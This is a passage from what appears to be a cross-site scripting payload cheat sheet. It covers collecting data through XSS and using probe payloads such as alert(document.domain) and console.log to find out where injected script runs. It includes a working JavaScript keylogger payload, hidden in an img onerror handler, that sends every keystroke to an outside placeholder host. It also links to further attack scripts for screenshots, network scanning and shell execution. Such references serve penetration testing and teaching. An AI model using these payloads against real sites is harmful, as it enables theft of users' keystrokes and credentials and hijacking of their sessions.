 Another way to collect sensitive data is to set a javascript keylogger.

```javascript
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```

### Other ways

More exploits at [http://www.xss-payloads.com/payloads-list.html?a#category=all](http://www.xss-payloads.com/payloads-list.html?a#category=all):

- [Taking screenshots using XSS and the HTML5 Canvas](https://www.idontplaydarts.com/2012/04/taking-screenshots-using-xss-and-the-html5-canvas/)
- [JavaScript Port Scanner](http://www.gnucitizen.org/blog/javascript-port-scanner/)
- [Network Scanner](http://www.xss-payloads.com/payloads/scripts/websocketsnetworkscan.js.html)
- [.NET Shell execution](http://www.xss-payloads.com/payloads/scripts/dotnetexec.js.html)
- [Redirect Form](http://www.xss-payloads.com/payloads/scripts/redirectform.js.html)
- [Play Music](http://www.xss-payloads.com/payloads/scripts/playmusic.js.html)

## Identify an XSS endpoint

This payload opens the debugger in the developer console rather than triggering a popup alert box.

```javascript
<script>debugger;</script>
```

Modern applications with content hosting can use [sandbox domains][sandbox-domains]

> to safely host various types of user-generated content. Many of these sandboxes are specifically meant to isolate user-uploaded HTML, JavaScript, or Flash applets and make sure that they can't access any user data.

[sandbox-domains]:https://security.googleblog.com/2012/08/content-hosting-for-modern-web.html

For this reason, it's better to use `alert(document.domain)` or `alert(window.origin)` rather than `alert(1)` as default XSS payload in order to know in which scope the XSS is actually executing.

Better payload replacing `<script>alert(1)</script>`:

```html
<script>alert(document.domain.concat("\n").concat(window.origin))</script>
```

While `alert()` is nice for reflected XSS it can quickly become a burden for stored XSS because it requires to close the popup for each execution, so `console.log()` can be used instead to display a message in the console of the developer console (doesn't require any interaction).

Example:

```html
<script>console.log("Test XSS from the search bar of page XYZ\n".concat(document.domain).concat("\n").concat(window.origin))</script>
```

References:

- [Google Bughunter University - XSS in sandbox domains](https://sites.google.com/site/bughunteruniversity/nonvuln/xss-in-sandbox-domain)
- [LiveOverflow Video - DO NOT USE alert(1) for XSS](https://www.youtube.com/watch?v=KHwVjzWei1c)
- [LiveOverflow blog post - DO NOT USE alert(1) for XSS](https://liveoverflow.com/do-not-use-alert-1-in-xss/)
